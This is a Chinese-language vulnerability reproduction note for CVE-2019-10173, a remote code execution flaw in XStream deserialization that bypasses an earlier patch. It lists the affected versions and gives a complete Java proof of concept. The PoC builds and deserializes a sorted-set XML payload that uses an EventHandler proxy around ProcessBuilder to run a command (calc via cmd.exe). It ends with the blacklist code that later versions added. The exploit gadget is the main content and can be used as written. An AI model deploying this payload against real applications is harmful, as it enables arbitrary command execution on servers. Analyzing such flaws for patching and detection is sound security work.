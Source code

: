 （CVE-2019-10173）Xstream 远程代码执行漏洞
==========================================

一、漏洞简介
------------

Xstream 1.4.10版本存在反序列化漏洞CVE-2013-7285补丁绕过。

二、漏洞影响
------------

XStream \<= 1.4.6

XStream = 1.4.10

三、复现过程
------------

### poc

    package com.bigo;

    import com.thoughtworks.xstream.XStream;

    import java.beans.EventHandler;
    import java.io.IOException;
    import java.util.Set;
    import java.util.TreeSet;

    /**
     * Created by cfchi on 2019/7/26.
     */
    public class Main {
        public static String expGen(){
            XStream xstream = new XStream();
            Set<Comparable> set = new TreeSet<Comparable>();
            set.add("foo");
            set.add(EventHandler.create(Comparable.class, new ProcessBuilder("calc"), "start"));
            String payload = xstream.toXML(set);
            System.out.println(payload);
            return payload;
        }
        public static void main(String[] args) throws IOException {
            expGen();
            XStream xStream = new XStream();
            String payload = "<sorted-set>\n" +
                    "    <string>foo</string>\n" +
                    "    <dynamic-proxy>\n" +
                    "    <interface>java.lang.Comparable</interface>\n" +
                    "        <handler class=\"java.beans.EventHandler\">\n" +
                    "            <target class=\"java.lang.ProcessBuilder\">\n" +
                    "                <command>\n" +
                    "                    <string>cmd.exe</string>\n" +
                    "                    <string>/c</string>\n" +
                    "                    <string>calc</string>\n" +
                    "                </command>\n" +
                    "            </target>\n" +
                    "     <action>start</action>"+
                    "        </handler>\n" +
                    "    </dynamic-proxy>\n" +
                    "</sorted-set>\n";
           xStream.fromXML(payload);
        }
    }

### 1.4.7版本白名单

![](resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId26.png)

### 1.4.10版本，黑名单未开启

![](resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId28.png)

### 1.4.11版本，黑名单开启

#### 黑名单

    private class InternalBlackList implements Converter {
        private InternalBlackList() {
        }

        public boolean canConvert(Class type) {
            return type == Void.TYPE || type == Void.class || !XStream.this.securityInitialized && type != null && (type.getName().equals("java.beans.EventHandler") || type.getName().endsWith("$LazyIterator") || type.getName().startsWith("javax.crypto."));
        }

        public void marshal(Object source, HierarchicalStreamWriter writer, MarshallingContext context) {
            throw new ConversionException("Security alert. Marshalling rejected.");
        }

        public Object unmarshal(HierarchicalStreamReader reader, UnmarshallingContext context) {
            throw new ConversionException("Security alert. Unmarshalling rejected.");
        }
    }

![](resource/(CVE-2019-10173)Xstream远程代码执行漏洞/media/rId31.png)

参考链接
--------

> http://www.polaris-lab.com/index.php/archives/658/
